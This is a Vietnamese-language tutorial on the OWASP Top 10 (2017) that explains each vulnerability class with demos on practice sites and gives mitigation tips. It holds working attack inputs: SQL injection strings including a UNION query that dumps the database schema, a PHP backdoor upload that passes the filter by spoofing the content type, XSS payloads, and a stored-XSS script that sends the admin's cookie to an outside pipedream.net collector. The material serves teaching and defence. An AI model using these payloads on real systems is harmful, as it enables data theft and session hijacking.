


# khái niệm lỗ hổng và tấn công

## Lỗ hổng

- Lỗ hổng là điểm yếu nằm trong thiết kế và cấu hình hệ thống trên server, lỗi của dev trong quá trình code server hoặc sơ suất trong quá trình vận hành server. Dựa trên điểm yếu đó attacker tấn công vào hệ thống server để khi thác nhằm mục đích xấu.

## Tấn công 

- attacker dựa trên các công cụ dò tìm lỗi website để phát hiện ra lỗi nếu như những website đó có cấu hình bảo mật kém. Từ đó, attacker tập trung khai thác, tấn công vào lổ hổng của website với mục đích xấu.

# OWASP

- OWASP (Open Web Appication Security Project ) là dự án mở về bảo mật ứng dụng web và đưa ra chuẩn OWASP để phục vụ việc kiểm thử của Pentest.

# TOP 10 OWASP

## Mục lục:

* [A1:2017 - Injection](#A1)
* [A2:2017 - Broken Authentication](#A2)
* [A3:2017-Sensitive Data Exposure](#A3)
* [A4:2017-XML External Entities (XXE)](#A4)
* [A5:2017-Broken Access Contro](#A5)
* [A6:2017-Security Misconfiguration](#A6)
* [A7:2017-Cross-Site Scripting (XSS)](#A7)
* [A8:2017-Insecure Deserialization](#A8)
* [A9:2017-Using Components with Known Vulnerabilitie](#A9)
* [A10:2017-Insufficient Logging & Monitoring](#A10)

<a name = "A1"></a>

# A1:2017 - Injection

- Bất cứ 1 attacker nào cũng có thể truy cập trái phép database thông qua các form, ô input cần dữ liệu nhập vào phía client để truy cập tới database.
- Gồm 1 số loại SQL, NoSQL, OS, LDAP injection, html injection...
- Tuy nhiên phổ biến nhất là SQL injection.
- Truy cập dữ liệu bất hợp pháp bằng 1 số query như SELECT để lấy ra dữ liệu của database.
- Thực hiện các query như Insert/Update để thêm hoặc sửa các thông tin trên database 1 cách bất hợp pháp.
- 1 số phương pháp để tránh lỗi injection:
  + Lọc dữ liệu client nhập vào 1 các cẩn thận. Lọc hết các ký đặc biệt và các từ khoá trong SQL.
  + Bỏ qua các cộng chuỗi để tạo ra các câu query.
  + Không hiện thị lỗi chi tiết nếu phía client nhập sai.
  + Phân quyền trong database 1 cách rõ ràng. Dùng table nào thì gán quyền truy cập table đó, tránh khả năng nếu user có thể inject vô cũng không thể chuyển qua truy cập table khác trong database.
  + Backup dữ liệu thường xuyên đề phòng dữ liệu bị mất, đừng quá tự tin về phần bảo mật của chính mình.

## Demo với sql injection cơ bản


## Sơ bộ về Web demo

- Ở đây ta chỉ có 1 form nhập và các tên sách. Copy tên sách paste vào ô input, ta sẽ được hiện thị ra 1 bảng thông tin của sách.


## Demo tấn công

- Trang web này chỉ là trang web đơn giản bị lỗi sql injection do dev không kiểm tra kỹ càng về phía đầu vào của client
- Ở đây dev chỉ giả định client sẽ nhập những tên sách để xuất ra thông tin của sách, nhập không đúng thì xuất ra bảng rỗng.
- Giả sử ở phía attacker không nhập vào tên sách mà nhập các query sql, ta hãy thử phân tích câu query mà dev sử dụng để truy vấn cơ sở dữ liệu.

```php
$sql_stmt = 'SELECT * FROM book WHERE BOOK = "'.$search.'"';
```

- Ở đây `$search` là đầu vào ở phía client sẽ nhập vào.
- Có thể thấy rõ câu query trên sử dụng cộng các str lỏng lẻo. attacker có thể nhập câu query `" OR "1" = "1` để chình sửa lại ý nghĩa câu query của dev như sau:

```php
$sql_stmt = 'SELECT * FROM book WHERE BOOK = "" OR "1" = "1"';
```

- Ta hãy phân tích câu query sau:
  + Ở đây với ý nghĩa ban đầu là sẽ lấy ra tất cả dữ liệu của tên BOOK được nhập vào. Sau đó bị attacker thêm vào câu query kia khiến ý nghĩa bị thay đổi. Bây giờ bị biến thành lấy tất cả dữ liệu của tên BOOK hoặc `"1" = "1"`. Ta có thể thấy, đó là trường hợp luôn đúng. Vậy nên Cơ sở dữ liệu sẽ trả lại cho attacker tất cả những gì đang có trong bảng.


- Đây là ví dụ đơn giản với sql injection. Tuy nhiên trường hợp này cũng có thể xảy ra bất cứ khi nào nếu dev bất cẩn trong việc kiểm tra đầu vào của client. Nếu trên kia không phải là form kiểm tra thông tin sách mà là form login thì hậu quả xảy ra sẽ nghiêm trong hơn rất nhiều. Ngoài nếu attacker tiêm vào câu query `" or "1" = "1" union SELECT TABLE_NAME,database(),version(),table_schema FROM INFORMATION_SCHEMA.TABLES where "1" ="1` thì tất cả thông tin của database sử dụng sẽ bị lộ từ tên database, phiên bản, tên table...


<a name = "A2"></a>

# A2:2017 - Broken Authentication

- Ngay từ form register, nếu dev không quản lý chặt chẽ để user register với 1 username và password ngắn, dễ đoán. Rất có thể tài khoản đó có thể bị tấn công và bị chiếm quyền truy cập bất cứ lúc nào.
- Ở form login, nếu dev không kiểm tra xác thực đúng cách, 1 attacker nào đó có thể truy cập vào 1 tài khoản nào đó thông qua 1 số tool Credential stuffing với 1 whitelist username và password. Với cách nhập tay thì khó có thể truy cập vào 1 tài khoản 1 cách trái phép, nhưng với tool có thể quét vài nghìn lần trong vài giây thì sao, liệu 1 tài khoản với username và password ngắn và lỏng lẻo liệu có thể thoát được.
- Vài hướng để bảo vệ user khỏi Broken Authentication:
  + Bắt user tạo mật khẩu đủ dài, tối thiểu phải đạt 8 ký tự. Ngoài ra phải có 1 ký tự viết hoa, 1 ký tự đặc biệt, 1 chữ số tuỳ theo trường hơp
  + Trong khi login nếu user nhập sai username hoặc password thì trả về kết quả đã nhập sai username hoặc password. Không thông báo đã nhập sai phần nào
  + Username và password khi được lưu vào database cần phải được mã hoá
  + Vô hiệu hoá nếu vượt qua số lần login cho phép
  + Thêm 1 số yêu cầu khác như capcha để hạn chế xác thực qua các tool
- Password đủ dài và đủ khó chưa phải là tất cả, cần phải lưu ý về phần cookies và session :
  + Set thời gian sống cho cookies và session của user thấp
  + Tạo phiên khi user login và xoá phiên khi user logout
  + Hạn chế gửi thông tin đăng nhập của user qua các kết nối không được mã hoá. Khi gửi qua http không có SSL rất có thể bị sniper dữ liệu.

## Sơ bộ về Web demo


- khi vừa vào web ta sẽ được đưa tới form login. Form login này yêu cầu login với username và password chính xác. Nhập chính xác sẽ được đưa tới trang home, nhập sai sẽ bị đẩy về lại trang login.


- Với quyền truy cập của user, có thể thấy password khá lỏng lẻo, dễ đoán. Phần xác thực lỏng lẽo khiến trang web có thể bị attacker dùng tool với 1 whitelist để tiến hành truy cập trái phép.
- Ở đây ta có 1 tool Credential stuffing viết bằng python. Khá đơn giản, nhưng với 1 whitelist username và password với vài chục nghìn dòng để dự đoán thì sao, khả năng cao là sẽ có vài user bị trùng và attacker có thể truy cập trái phép các tài khoản đó.


- Giải thích về tool 1 chút: **there will be a day not far away**

- Và đây là whitelist đơn giản mà tôi sử dụng, có vài dòng thôi nhưng có thể lên google search whilelist username và password có thể lên tới vài nghìn dòng.


<a name = "A3"></a>

# A3:2017 - Sensitive Data Exposure

- Các dữ liệu nhạy cảm như thông tin cá nhân người dùng, số tài khoản tín dụng, mật khẩu không được lưu trữ và bảo vệ cẩn thận.
- Dữ liệu khi truyền qua các giao thức không an toàn như HTTP... rất có thể bị bên ngoài sniper dữ liệu làm lộ dữ liệu gây ra hậu quả to l.
- Các dữ liệu nhạy cảm khi lưu ở trong file không được mã hoá và bao gồm các file backup khác có thể bị attacker truy cập trái phép
- Không dùng các thuật toán mã hoá yếu, có lỗ hổng dễ giải mã.
- 1 số lỗi thường gặp: 
  + Cleartext Storage of Sensitive Information
  + Cleartext Transmission of Sensitive Information

## Sơ bộ về web demo

- Đây là 1 web demo đơn giản chứa các thông tin nhạy cảm không được mã hoá rõ ràng, bị truy cập trái phép do sự thiếu sót trong việc xây dựng web app upload file để attacker dễ dàng cài backdoor và tấn công web.


- Thử upload 1 file png và kết quả


- Bây giờ ta thử gửi 1 file backdoor.php lên và xem kết quả.


- Hệ thống không cho phép ta upload file php lên
- Lần này ta thử gửi 1 file backdoor.php lên nhưng lại gửi bằng CURL với 1 câu lệnh đơn giản. Trong đó, ta thay đổi thông số loại type thành image/png để vượt hệ thống. Nhìn kết quả sau khi upload.


- Ta đã thành công trong việc upload file backdoor lên file hệ thống. Bây giờ ta đã có thể làm nhiều điều với file backdoor này
- Test thử lệnh pwd, kết quả hiển thị thư mục hiện tại. Bây giờ tuỳ vào mục đích của attacker sẽ truy cập dữ liệu trái phép trên server mà gây ra hậu quả nghiêm trọng.


<a name = "A4"></a>

# A4:2017 - XML External Entities (XXE)

- XML được sử dụng để trao đổi dữ liệu giữa các ứng dụng khác nhau.
- Kỹ thuật tấn công XXE dựa vào việc cho phép khai báo External Entity trong phần DTD của dữ liệu XML, attacker có thể khai báo một entity để đọc nội dung của file bất kỳ trong hệ thống nếu trình phân tích XML được cấu hình không tốt.

## Demo tấn công và sơ lược về web demo


- Đây là 1 web demo đơn giản cho phép nhận và phân tích XML từ các ứng dụng khác. Tuy nhiên khi dev cấu hình không tốt trình phân tích XML. attacker có thể khai báo phần External Entity trái phép cho phép attacker truy cập được vào hệ thống của server.
- Giả sử attacker gửi requests có chưa phần External Entity độc hại, server sẽ hiểu nhầm và trả lại file hệ thống mà attacker yêu cầu


- Giải thích sơ lược về file php dùng để gửi requests chứa phần External Entity độc hại: **there will be a day not far away**

<a name = "A5"></a>

# A5:2017 - Broken Access Control

- Do thiếu sót của dev trong quá trình xây dựng quyền cho user, dẫn đến các cuộc tấn công leo quyền của attacker từ vị trí của user.
- Trong các cuộc tấn công leo quyền, attacker có thể được quyền cao như admin, truy cập trái phép vào các dữ liệu bí mật...
- Lỗi này 1 phần do dev bỏ qua khả năng tuỳ chỉnh url của user, việc này dẫn tới user có thể vượt quyền truy cập vào các folder hoặc file không được phép.

## Sơ bộ về web demo và demo tấn công


- Web demo này cho phép ta đọc 2 tệp thông qua biến "file" để nhận diện, Đây sẽ là lỗ hổng lớn nếu dev không xét kỹ việc user có thể leo quyền để truy cập trái phép
- Đối số chỉ là 1.txt hoặc 2.txt thì server sẽ đọc 2 file này. Nhưng nếu ta sửa lại URL với đối số file là index.php thì server sẽ đọc luôn file index.php dưới dạng script cho attacker. Điều này rất nguy hiểm vì attacker có thể dựa trên script của file index.php để khai thác tới các lỗi khác


<a name = "A6"></a>

# A6:2017 - Security Misconfiguration

- Do việc cấu hình an ninh lỏng lẻo tại webserver, database, … khiến cho attacker có thể khai thác vào các ứng dụng, để lộ ra những thông tin quan trọng khi trao đổi thông tin.
- Các tính năng không cần thiết được bật lên đôi khi lại trở thành đòn bẩy cho attacker tấn công vào trang web.
- Đôi khi nâng cấp hệ thông, 1 số tính năng bảo mật có thể bị mất đi nếu dev không để ý.

## Sơ bộ về web demo và demo tấn công

- File robots.txt là 1 file rất hữu ích đối với SEO. Nó giúp các Webmaster linh hoạt hơn trong việc cho phép hay cấm các bot của google tìm ra. Tuy nhiên chúng cũng tiềm ẩn nguy hiểm tiềm tàng khi dev cấm file bí mật ngay trên file robots.txt . Đây sẽ là hint cực tốt cho attacker tấn công các file bí mật đó


- Bây giờ attakced có thể dễ dàng truy cập vào file secret mà dev đã cấm trên file robots.txt với điều kiện web có lỗi Directory traversal để leo thang quyền truy cập.



<a name = "A7"></a>

# A7:2017 - Cross-Site Scripting (XSS)

- XSS (Cross-site Scripting) là một lỗ hổng phổ biến trong ứng dụng web. Để khai thác một lỗ hổng XSS, attacker sẽ chèn mã độc thông qua các đoạn script để thực thi chúng ở phía client. Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua các kiểm soát truy cập và mạo danh người dùng.

- XSS thường có 3 loại:
  + Reflected XSS
  + Stored XSS
  + DOM-based XSS

## Reflected XSS

- Ở dạng tấn công này, attacker sẽ chèn mã độc vào URL và lừa victim click vào. Lúc này khi nạn nhân click vào URL, trang web sẽ đọc đoạn mã độc của attacker đã đưa vào URL và thực thi chúng.
- Các kiểu tấn công ở dạng này tương đối đa dạng, tuỳ thuộc vào attacker. Tuy nhiên, tầm ảnh hưởng chỉ riêng victim mà attacker nhắm vào.
- Bình thường attacker sẽ có gắng lấy cookie của người dùng hoặc admin để truy cập bất hợp pháp. Tuy nhiên, ở đây attacker cũng có thể kết hợp kỹ thuật Phishing để lừa nạn nhân. Ví dụ:
  +B1: attacker sẽ tạo URL như sau tạo web abc.com nào đó: 
  ` http://abc.com?q=<script>alert('You are rewarded by abc.com program, please call the +882xxxxxxxx number for more information')</script> `
  +B2: Bằng cách nào đó attacker dụ được victim click vào link đó.

+ Lúc này, khi victim click vào link đó và gửi request về sever, sever sẽ thực thi đoạn mã độc đó và trả về cho victim 1 popup xuất hiện thông báo sau.

]
	

+ Giả sử SDT `+882xxxxxxxx` là SDT vệ tinh, phí gọi có thể vào 150k/phút chẳng hạn. Lúc này nếu victim "ngây thơ" gọi cho SDT đó thì có thể tài khoản điện thoại bay sạch cũng nên.

- Sự nguy hiểm của Reflected XSS tuy rất lớn, nhưng chung quy lại chỉ ảnh hưởng tới 1 số user nhất định. Vì vậy ngoại trừ cố gắng phòng thủ trước lỗi XSS này, dev cần đính chính cho user để tránh bị lừa oan. 

## Stored XSS

- Khác với Reflected tấn công trực tiếp vào một số victim mà attacker nhắm đến, Stored XSS hướng đến nhiều victim hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu. Ví dụ như các form góp ý, các comment … trên các trang web.
- Với kỹ thuật Stored XSS, attacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
- Đầu tiên attacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm. Tiếp theo, khi victim truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của attacker sẽ được thực thi trên trình duyệt victim.
- Reflected XSS và Stored XSS có 2 sự khác biệt lớn trong quá trình tấn công:
  + Thứ nhất, để khai thác Reflected XSS, attacker phải lừa được victim truy cập vào URL của mình. Còn Stored XSS không cần phải thực hiện việc này, sau khi chèn được mã nguy hiểm vào CSDL của ứng dụng, attacker chỉ việc ngồi chờ victim tự động truy cập vào. Với victim, việc này là hoàn toàn bình thường vì họ không hề hay biết dữ liệu mình truy cập đã bị nhiễm độc.
  + Thứ 2, mục tiêu của attacker sẽ dễ dàng đạt được hơn nếu tại thời điểm tấn công victim vẫn trong phiên làm việc(session) của ứng dụng web. Với Reflected XSS, attacker có thể thuyết phục hay lừa victim đăng nhập rồi truy cập đến URL mà hắn ta cung cấp để thực thi mã độc. Nhưng Stored XSS thì khác, vì mã độc đã được lưu trong CSDL Web nên bất cứ khi nào victim truy cập các chức năng liên quan thì mã độc sẽ được thực thi, và nhiều khả năng là những chức năng này yêu cầu phải xác thực(đăng nhập) trước nên hiển nhiên trong thời gian này victim vẫn đang trong phiên làm việc.
- Từ những điều này có thể thấy Stored XSS nguy hiểm hơn Reflected XSS rất nhiều, đối tượng bị ảnh hưởng có thế là tất cả nhưng người sử dụng ứng dụng web đó. Và nếu victim có vai trò quản trị thì còn có nguy cơ bị chiếm quyền điều khiển web.

## DOM Based XSS

- DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML.
- Giả sử có 1 trang web register sau:



- Bây giờ attacker sẽ đổi tham số q của form thành:

  ```php+HTML
  <select onchange="show()">
           <option value="Male">Male</option>
           <option value="Female">Female</option>
  </select>
  <script>function show(){alert('hacked');}</script>
  ```

- Sau khi thêm đoạn mã độc vào form, bây giờ form sẽ thành:


- Victim sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi


- Nếu đây là 1 trò đùa thì không có gì xảy ra ngoài xuất hiện thêm 1 cái popup. Tuy nhiên nếu attacker thêm vào đó 1 ô số TK ngân hàng chẳng hạn hoặc là 1 số thông tin nhạy cảm khác rồi gửi tới cho server do attacker thì nguy cơ bị thiệt hại là không thể tránh khỏi.

## Sơ bộ về web demo và demo tấn công


- Mở đầu giao diện web là form login, bây giờ ta sẽ login với user và pass là admin và admin


- Manager của trang web có quyền thêm ảnh vào trang web nhưng phải thông qua sự đồng ý của admin.


- Ở đây trang Edit để thêm ảnh vào trang web gồm 1 nút button để thêm ảnh, 1 ô input để nhập name account, 1 ô input để thêm subject, 1 ô input tiếp theo để thêm messenger cho amdin.
- Bây giờ attacker bắt đầu thêm ảnh. với 3 ô input đầu thì nhập như bình thường. Tuy nhiên ô messenge thì attacker nhập là:

```javascript
hello
<script type="text/javascript">
	var i=new Image; i.src='https://eno6x6kni89f.x.pipedream.net?key='+document.cookie;
</script>
```

- Bây giờ yêu cầu đã được gửi cho admin. Chỉ cần đợi admin vô mục yêu cầu là attacker đã thành công trong việc lấy cookie của admin.


- Bây giờ attacker đã có được cookie của admin. Với cookie này thì manager có thể truy cập trang web với tư cách là admin.


<a name = "A8"></a>

# A8:2017 - Insecure Deserialization

- Serialization là quá trình chuyển đổi tuần tự một đối tượng object.
- Mục đích của Serialization là để bảo vệ một đối tượng, có nghĩa là đối tượng sẽ tồn tại bên ngoài chương trình nơi mà nó được tạo ra.
- Thông tin và hoạt động yêu cầu được lưu trữ trong một đối tượng nội bộ. Trước khi đối tượng này được gửi tới máy chủ chính, nó được tuần tự thực hiện (Serialization) chuyển dữ liệu từ dạng đối tượng thành dạng dãy byte và phê duyệt các hoạt động cần thiết. Máy chủ sau đó chuyển đổi cấu trúc dữ liệu từ dạng byte sang dạng đối tượng (Desertlization) để hoàn thành các hoạt động, phản hồi.

## Sơ bộ về web demo và demo tấn công


- Khi ta nhấn vào "Click here" thì các đối tượng được tuần tự thực hiện (Serialization) chuyển dữ liệu từ dạng đối tượng thành dạng dãy byte và sau đó in ra kết quả.
- 1 sai lầm ở đây là dev không bảo vệ các đối tượng, khiến chúng tuần tự thực hiện (Serialization) chuyển dữ liệu từ dạng đối tượng thành dạng dãy byte ngay trên URL, điều này khiến attacker có thể dễ dàng tấn công được thông qua URL
- Lúc này attacker cũng viết ra 1 object với ý đồ xấu và thực hiện tuần tự Serialization. Lúc này chỉ cần đưa đoạn byte được tuần tự dán vào URL để tiến hành tấn công.


<a name = "A9"></a>

# A9:2017 - Using Components with Known Vulnerabilities

- Do việc sử dụng mà không kiểm duyệt các thư viện, plugin, module, ứng dụng… có tồn tại các lỗ hổng đã được công khai, từ đó attacker có thể lợi dụng để tấn công vào hể thống và thực hiện các mục đích xấu.
- attacker có thể khai thác các lỗ hổng để thực hiện các hành vi xấu như đánh cắp các dữ liệu nhạy cảm, chiếm quyền server,…

<a name = "A10"></a>

# A10:2017 - Insufficient Logging & Monitoring

- Lỗ này là do khi dev ghi lại logs và kiểm soát phản hồi lỗi không tốt khiến bị rò rỉ thông tin nếu hiển thị các logs và cảnh báo cho người dùng hoặc attacker.
- Trang web không thể thông báo kịp thời với các cuộc tấn công thời gian thức, khiến bị thụ động trong quá trình bảo về trang web.
- Không xuất hiện cảnh báo theo thời gian thực khi bị thâm nhập và quét bởi các công cụ dò tìm lỗi.
- Logs chỉ được lưu trữ cục bộ.
- Logs của các ứng dụng và API không theo dõi được các hoạt động đáng ngờ liên quan tới trang web bị tấn công.
